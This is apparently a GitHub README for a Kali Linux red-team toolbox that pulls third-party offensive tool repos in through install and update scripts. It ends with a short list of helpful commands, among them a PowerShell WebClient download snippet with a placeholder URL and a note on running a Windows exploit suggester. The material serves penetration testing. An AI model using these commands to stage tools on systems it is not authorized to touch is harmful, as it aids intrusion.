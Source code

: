 # Yet Another Kali Linux Scripts Repo
This repo contains a collection of scripts,apps and/or programs that I have found useful during my time on Red Team Ops. I maintain the collection of what is basically pointers to the repos here so I only have 1 place to go to get them all and not have to remember them all. Setup,install, or bugs with the downloaded repos that between you and the owner.

## Legalish Disclaimer: 
I dont recommend or condone using anything on here for any reason. Anything in the LIsts Dir i did not write so I cant exactly tell you what or how it does what it says it does. The scipts here may work, but most likely have a chance to break the system they are run on. If you use them you do so at your own risk. I do/have NEVER authorized,condoned, or recommend the use of anything in any of my repos for any reason. This is a collection of simple scripts I found useful with my own Kali OS for educational purposes only or when im on a Pen Test. I did not create any of the scripts downloaded via the install.py. All credit goes to the authors whos full URL and/or github account is listed in the script, please see their sites for more info or issue with their repo's. It should be noted that since these are all publically available then they are to be used for education purposes only.

# Instructions:
Just run the files to build or maintain the Toolbox.

install.py will build the ToolBox in cwd.

update.py is for updating the repos and /Lists.

# For the Blue Team:
For the die hard Blue Teamers here. I know its hard belive me I do. And Repos like this make life seem harder...well unless u use this Repo to your advantage. Also to help end ive created "Yet Another Blue Team Repo" (YABTR) for the Blue team to help fight/Find Red/YAKSR.

# "Support":
Currenlty im only using this on Kali Linux. I guess the github scripts would work on other Linux distros if you have all the packages (nope im not doing anything for that).

## Helpful CMDs/Notes:
Scan Wifi info: iw wlan0 scan

Set File Attributes (Linux):chattr {arg} {FilePath}

systeminfo (Download output and run windows exploit suggestor)

$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile("http(s)://URL/file" || file:C:\path\file")
